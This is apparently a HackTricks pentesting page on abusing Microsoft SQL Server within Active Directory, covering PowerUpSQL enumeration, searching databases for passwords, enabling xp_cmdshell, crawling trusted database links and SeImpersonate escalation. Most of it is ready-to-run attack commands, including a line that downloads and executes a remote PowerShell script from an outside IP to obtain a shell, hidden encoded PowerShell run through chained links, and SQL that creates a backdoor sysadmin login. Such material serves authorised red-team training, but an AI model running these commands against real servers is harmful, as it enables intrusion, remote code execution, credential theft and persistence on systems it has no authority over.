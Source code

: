# MSSQL AD Abuse

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## **MSSQL Enumeration / Discovery**

The powershell module [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) is very useful in this case.

```powershell
Import-Module .\PowerupSQL.psd1
```

### Enumerating from the network without domain session

```powershell
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#If you don't have a AD account, you can try to find MSSQL scanning via UDP
#First, you will need a list of hosts to scan
Get-Content c:\temp\computers.txt | Get-SQLInstanceScanUDP –Verbose –Threads 10

#If you have some valid credentials and you have discovered valid MSSQL hosts you can try to login into them
#The discovered MSSQL servers must be on the file: C:\temp\instances.txt
Get-SQLInstanceFile -FilePath C:\temp\instances.txt | Get-SQLConnectionTest -Verbose -Username test -Password test
```

### Enumerating from inside the domain

```powershell
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#Get info about valid MSQL instances running in domain
#This looks for SPNs that starts with MSSQL (not always is a MSSQL running instance)
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose 

#Test connections with each one
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose

#Try to connect and obtain info from each MSSQL server (also useful to check conectivity)
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Get DBs, test connections and get info in oneliner
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```

## MSSQL Basic Abuse

### Access DB

```powershell
#Perform a SQL query
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select @@servername"

#Dump an instance (a lotof CVSs generated in current dir)
Invoke-SQLDumpInfo -Verbose -Instance "dcorp-mssql"

# Search keywords in columns trying to access the MSSQL DBs
## This won't use trusted SQL links
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "password" -SampleSize 5 | select instance, database, column, sample | ft -autosize
```

### MSSQL RCE

It might be also possible to **execute commands** inside the MSSQL host

```powershell
Invoke-SQLOSCmd -Instance "srv.sub.domain.local,1433" -Command "whoami" -RawResults
# Invoke-SQLOSCmd automatically checks if xp_cmdshell is enable and enables it if necessary
```

Check in the page mentioned in the **following section how to do this manually.**

### MSSQL Basic Hacking Tricks

{% content-ref url="../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/" %}
[pentesting-mssql-microsoft-sql-server](../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/)
{% endcontent-ref %}

## MSSQL Trusted Links

If a MSSQL instance is trusted (database link) by a different MSSQL instance. If the user has privileges over the trusted database, he is going to be able to **use the trust relationship to execute queries also in the other instance**. This trusts can be chained and at some point the user might be able to find some misconfigured database where he can execute commands.

**The links between databases work even across forest trusts.**

### Powershell Abuse

```powershell
#Look for MSSQL links of an accessible instance
Get-SQLServerLink -Instance dcorp-mssql -Verbose #Check for DatabaseLinkd > 0

#Crawl trusted links, starting from the given one (the user being used by the MSSQL instance is also specified)
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Verbose

#If you are sysadmin in some trusted link you can enable xp_cmdshell with:
Get-SQLServerLinkCrawl -instance "<INSTANCE1>" -verbose -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "<INSTANCE2>"'

#Execute a query in all linked instances (try to execute commands), output should be in CustomQuery field
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Query "exec master..xp_cmdshell 'whoami'"

#Obtain a shell
Get-SQLServerLinkCrawl -Instance dcorp-mssql  -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1'')"'

#Check for possible vulnerabilities on an instance where you have access
Invoke-SQLAudit -Verbose -Instance "dcorp-mssql.dollarcorp.moneycorp.local"

#Try to escalate privileges on an instance
Invoke-SQLEscalatePriv –Verbose –Instance "SQLServer1\Instance1"

#Manual trusted link queery
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select * from openquery(""sql2.domain.io"", 'select * from information_schema.tables')"
## Enable xp_cmdshell and check it
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'SELECT * FROM OPENQUERY("sql2.domain.io", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell'''''');'
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [sql.rto.external]'
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [sql.rto.external]'
## If you see the results of @@selectname, it worked
Get-SQLQuery -Instance "sql.rto.local,1433" -Query 'SELECT * FROM OPENQUERY("sql.rto.external", ''select @@servername; exec xp_cmdshell ''''powershell whoami'''''');'
```

### Metasploit

You can easily check for trusted links using metasploit.

```bash
#Set username, password, windows auth (if using AD), IP...
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session
```

Notice that metasploit will try to abuse only the `openquery()` function in MSSQL (so, if you can't execute command with `openquery()` you will need to try the `EXECUTE` method **manually** to execute commands, see more below.)

### Manual - Openquery()

From **Linux** you could obtain a MSSQL console shell with **sqsh** and **mssqlclient.py.**

From **Windows** you could also find the links and execute commands manually using a **MSSQL client like** [**HeidiSQL**](https://www.heidisql.com)

_Login using Windows authentication:_

![](<../../.gitbook/assets/image (805).png>)

#### Find Trustable Links

```sql
select * from master..sysservers;
EXEC sp_linkedservers;
```

![](<../../.gitbook/assets/image (713).png>)

#### Execute queries in trustable link

Execute queries through the link (example: find more links in the new accessible instance):

```sql
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
```

{% hint style="warning" %}
Check where double and single quotes are used, it's important to use them that way.
{% endhint %}

![](<../../.gitbook/assets/image (640).png>)

You can continue these trusted links chain forever manually.

```sql
# First level RCE
SELECT * FROM OPENQUERY("<computer>", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')

# Second level RCE
SELECT * FROM OPENQUERY("<computer1>", 'select * from openquery("<computer2>", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')
```

If you cannot perform actions like `exec xp_cmdshell` from `openquery()` try with the `EXECUTE` method.

### Manual - EXECUTE

You can also abuse trusted links using `EXECUTE`:

```bash
#Create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

## Local Privilege Escalation

The **MSSQL local user** usually has a special type of privilege called **`SeImpersonatePrivilege`**. This allows the account to "impersonate a client after authentication".

A strategy that many authors have come up with is to force a SYSTEM service to authenticate to a rogue or man-in-the-middle service that the attacker creates. This rogue service is then able to impersonate the SYSTEM service whilst it's trying to authenticate.

[SweetPotato](https://github.com/CCob/SweetPotato) has a collection of these various techniques which can be executed via Beacon's `execute-assembly` command.


<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
